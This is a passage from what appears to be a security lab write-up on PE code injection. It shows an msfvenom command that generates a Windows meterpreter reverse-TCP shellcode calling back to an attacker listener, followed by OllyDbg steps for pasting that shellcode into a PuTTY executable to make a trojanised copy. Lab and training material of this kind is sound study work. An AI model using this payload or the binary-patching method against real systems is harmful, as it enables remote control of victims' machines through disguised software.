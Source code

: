 **Bonus: Use meterpreter shell code and demonstrate advance level control of victim machine.**

Generating meterpreter shell code using msfvenom:

```bash
msfvenom -p **windows/meterpreter/reverse_tcp** LHOST=172.16.244.128 LPORT=1234 -f hex
```

![Screenshot 2022-03-01 at 8.59.00 PM.png](PE%20Code%20Injection%208408462c76cc48f1825e72c162efb178/Screenshot_2022-03-01_at_8.59.00_PM.png)

Go to OllyDbg, open `putty1.2` file and press F7. Select sufficient portion & copy the payload, right click and select Binary → Binary paste. Save the selection. Save file as `putty1.7`

![Screenshot 2022-03-01 at 8.52.11 PM.png](PE%20Code%20Injection%208408462c76cc48f1825e72c162efb178/Screenshot_2022-03-01_at_8.52.11_PM.png)
